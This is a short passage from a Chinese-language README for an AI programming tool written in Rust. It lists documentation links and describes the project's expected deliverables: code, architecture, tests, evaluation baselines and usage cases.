- [Model Context Protocol](https://modelcontextprotocol.io/)
- [架构与扩展点落点表](docs/architecture.md)
- [完整用法手册](docs/usage.md)
- [迭代路线明细](docs/roadmap.md)
- [更新日志](CHANGELOG.md)
- [贡献指南](.github/CONTRIBUTING.md)
- [行为准则](.github/CODE_OF_CONDUCT.md)
- [安全策略](.github/SECURITY.md)

以下内容对应仓库当前版本；构建、配置、示例任务和当前能力边界均以代码、测试和运行记录为准。

## 11. 预期成果

最终交付不仅是一款可运行的 AI 编程工具，还包括可读的 Rust 工程代码、架构设计、自动化测试、评测基线、故障处理记录和真实开发使用案例。项目价值将主要通过**代码任务完成情况、工程安全性和可复现证据**进行检验。

